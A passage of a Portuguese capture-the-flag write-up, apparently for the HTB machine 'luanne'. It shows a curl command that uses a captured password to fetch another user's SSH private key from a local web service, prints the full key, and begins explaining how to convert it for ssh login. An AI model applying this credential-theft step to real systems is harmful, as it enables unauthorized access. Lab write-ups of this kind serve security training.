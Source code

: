 ```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user
Enter host password for user 'webapi_user':iamthebest

% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 2610 100 2610 0 0 2548k 0 --:--:-- --:--:-- --:--:-- 2548k
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Ao validar a chave RSA existente (`id_rsa`) notei que não se trata de uma chave RSA, mas uma chave `OPENSSH`. Para convertê-la precisei realizar os seguintes procedimentos:

- Remover a quebra de linha ao final do arquivo, após a instrução `-----END OPENSSH PRIVATE KEY-----`.
- Conversão de OpenSSH para RSA usando o comando abaixo, assim como a redefinição das permissões para que pudéssemos utilizá-la com o `ssh`, informando a senha da chave a ser exportada em branco.

